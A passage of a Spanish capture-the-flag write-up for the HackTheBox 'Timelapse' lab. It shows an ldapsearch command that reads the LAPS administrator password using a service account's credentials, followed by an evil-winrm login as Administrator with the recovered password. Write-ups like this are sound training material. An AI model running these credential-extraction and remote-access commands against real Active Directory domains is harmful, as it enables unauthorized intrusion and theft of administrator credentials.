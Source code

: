 <figure><img src="../../../.gitbook/assets/669_vmware_k3VlqOw59s.png" alt=""><figcaption></figcaption></figure>

También podemos hacer uso de la herramienta **ldapsearch** con el siguiente comando para realizar lo mismo que el paso anterior.

{% code overflow="wrap" %}
```bash
ldapsearch -x -H ldap://10.10.11.152 -D 'svc_deploy' -w 'E3R$Q62^12p7PLlC%KWaxuaV' -b 'dc=timelapse,dc=htb' '(objectClass=computer)' ms-MCS-AdmPwd
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/672_vmware_7GxIURU7eK.png" alt=""><figcaption></figcaption></figure>

Procederemos a conectarnos al equipo con el usuario Administrator y las credenciales encontradas. Comprobamos que hemos ganado acceso como usuario  _Administrator._

Para localizar la flag del "root.txt" ejecutaremos el siguiente comando para buscar la flag en todos los "Desktop" de todos los usuarios del equipo, ya que la flag se encuentra en otro usuario.

{% code overflow="wrap" %}
```bash
evil-winrm -i 10.10.11.152 -u Administrator -p '5n69pMl.b5{15%8sj9i(6A5g' -S

Get-ChildItem -Path "C:\Users" -Recurse -Filter "root.txt" -ErrorAction SilentlyContinue | Where-Object { $_.Directory -like "*\Desktop" }
```
{% endcode %}
